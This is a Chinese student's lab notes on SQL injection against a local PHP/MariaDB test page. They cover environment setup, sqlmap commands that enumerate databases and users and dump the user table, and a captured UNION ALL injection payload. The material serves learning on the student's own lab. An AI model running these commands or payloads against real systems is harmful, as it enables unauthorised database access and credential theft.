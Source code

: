 
# SQL注入（进阶）

## 环境搭建

老师的视频中给出的是 Fedola 中的搭建，但在此尝试了 Kali 下的搭建，由于文件目录等的不同，在搭建时出现了诸多问题:
尝试了
https://blog.csdn.net/weixin_54252904/article/details/117855931
https://huaweicloud.csdn.net/638db1bbdacf622b8df8c6a0.html#5mysqlphpnginxmysqlphpapache_36
https://blog.csdn.net/weixin_43268590/article/details/125650002
但都不成功，恢复了无数次快照之后，按照
https://xp-rience.blogspot.com/2020/05/nginx-php-fpm-setup-under-kali-linux.html
成功搭建了 php+nginx 的环境：
![输入图片说明](/imgs/2023-05-01/ybY35dzlQrrS24fa.png)

kali 自带 mysql，但后面还是打不开 1.php，试了好多办法还是不行，推倒重来 fedora 了
大概思路是先安装 nginx（启动，检查是否启动成功），安装php、php-fpm（启动，检查是否启动成功），修改 nginx 配置文件：监听php，这时就可以通过浏览器打开 nginx 目录下的 php 文件了，然后安装 mysql（mariadb 及服务器），使用命令`mysql_secure_installation` 配置mysql，导入需要的sql_injection表，安装 php-mysqlnd，重启 nginx，php-fpm，这是按老师的演示视频就可以打开 1.php 查看内容，*不过我打开还是空白*？但是 1.html 可以打开，输入 user id 后也可正常回显，就这样用着吧先

## 准备工作

为了便于观测，修改数据库配置文件 my.cnf，新建一个日志目录用于记录数据库查询记录，然后使用`sudo tail -f /var/log/mariadb/queries.log` 持续观察：
![输入图片说明](/imgs/2023-05-07/z1PI87MXORtb1ekc.png)

再建立一个 用于mysql查询的命令行窗口：`mysql -u root -p`，输入密码登录进入数据库，再进到表 sql_injection中：`use sql_injection`：

![输入图片说明](/imgs/2023-05-08/R2xSGCa1ApdJmNF9.png)

再建立一个用于 sqlmap 的命令行窗口：

![输入图片说明](/imgs/2023-05-08/qLjm6QeUnti30iVs.png)

在 code 命令行窗口可以查看 php 代码：
![输入图片说明](/imgs/2023-05-08/sfWoM770ThlIfcpO.png)

使用 ZAP 抓 sqlmap 发出的请求包

## 开始实验

### 目标：审阅 php 代码，通过学习 sqlmap 使用了解 sql 注入原理

#### 1.php

1.php 将通过输入的 id 查询对应学生的姓名，并将查询到的结果直接返回到页面

![输入图片说明](/imgs/2023-05-08/YVyVf1NnSjoRSYdA.png)

在 sqlmap 中，输入命令检测是否存在注入点
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries
```
*-u url*
*-p id （测试参数）*
*–fresh-queries 忽略在会话文件中存储的查询结果*

 发现回显，存在注入点，可以进行三种类型的注入：
 ![输入图片说明](/imgs/2023-05-08/Y8AhkgXd7womGHty.png)

使用
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --dbs
```
*--dbs 获取数据库管理系统数据库*

![输入图片说明](/imgs/2023-05-08/GbhcXlkOIG4YwdRW.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --current-db
```
*--current-db 获取当前数据库*
![输入图片说明](/imgs/2023-05-08/n43hrWhDSifGhezc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --users
```
*--users 查看用户*

![输入图片说明](/imgs/2023-05-08/HWEfeoS2X94j6hxN.png)

```
/sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection --tables
```
*-D 数据库名*
*--table 获取表名*

![输入图片说明](/imgs/2023-05-08/udeS9WkDfM1SXKBc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection -T user --dump
```
*-T 表名
--dump 转储数据库管理系统的数据库中的表项*

![输入图片说明](/imgs/2023-05-08/60I1dHEMH3GOifvW.png)

```
 ./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --proxy='http://127.0.0.1:8080' --fresh-queries --current-db
```
*--proxy='http://127.0.0.1:8080' 通过此代理，设置此项即可让请求通过 ZAP，可以抓到请求包*

**这时看一下 ZAP/sql 查询记录** ，可以看到是用的 UNION 查询（这里以拖库时得查询为例）：

![输入图片说明](/imgs/2023-05-09/kXzNQOp5xyYlvgUm.png)
有用的查询：

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 		    	
	CONCAT(0x71787a7071,
			JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,column_name,column_type)),0x71706a7171),NULL 
				FROM INFORMATION_SCHEMA.COLUMNS 
					WHERE table_name=0x75736572 AND table_schema=0x73716c5f696e6a656374696f6e-- -'
```
输入到 sql 界面和 url 中看一下

![输入图片说明](/imgs/2023-05-09/aZEYcET0fibvIxmj.png)
![输入图片说明](/imgs/2023-05-09/Ws9GriQLjU8FiXxu.png)

可以看到该语句回显了数据库列名、每列的数据类型、数据长度

```
这里输入代码
```
















> Written with [StackEdit中文版](https://stackedit.cn/).
>
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTI3MTY0Mjk2OSwtODU4NzgyOTU4LDExNz
cxMDc4MjksMjgwNzg0NDUzLDExNzAzNDU4OTksLTE3MTEzMzI4
NTgsNzk2MjgzMTA4LDg4OTgzMjU5NCwxODAzNTAxNDg2LC02Nz
Q2NTQ5NTgsMTU4OTA0ODU4OSwtMTg1ODg2Mjk1NywtMTU2NjM1
NDE3MCwyNzE5OTA2MzQsMjM5NzQ3MjI2LC0yMDY4Nzg4NTEyLD
E2NDg1NTY2MTAsLTE4MDIzNzgwNjAsLTE5MTU0MjY5NSwtNTk4
OTAyMTVdfQ==
-->